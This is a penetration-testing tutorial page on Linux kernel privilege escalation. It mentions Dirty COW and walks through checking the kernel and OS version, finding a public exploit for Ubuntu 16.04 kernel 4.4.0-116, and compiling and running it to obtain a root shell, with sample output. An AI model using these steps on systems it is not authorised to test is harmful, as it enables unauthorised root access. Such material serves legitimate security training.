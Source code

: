 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Kernel Exploitation

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while others require modification. A quick way to identify exploits is to issue the command `uname -a` and search Google for the kernel version.

{% hint style="danger" %}
#### Warning

Kernel exploits can cause system instability so use caution when running these against a production system.
{% endhint %}

## Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.

{% code title="Command" %}
```bash
uname -a
```
{% endcode %}

{% code title="Example Output" %}
```bash
Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
{% endcode %}

{% code title="Command" %}
```bash
cat /etc/lsb-release 
```
{% endcode %}

{% code title="Example Output" %}
```bash
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```
{% endcode %}

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download it to the system using `wget` or another file transfer method. We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

{% code title="Command" %}
```bash
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```
{% endcode %}

Next, we run the exploit and hopefully get dropped into a root shell.

```shell-session
user@target[/]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell

root@target[/]# whoami

root
```
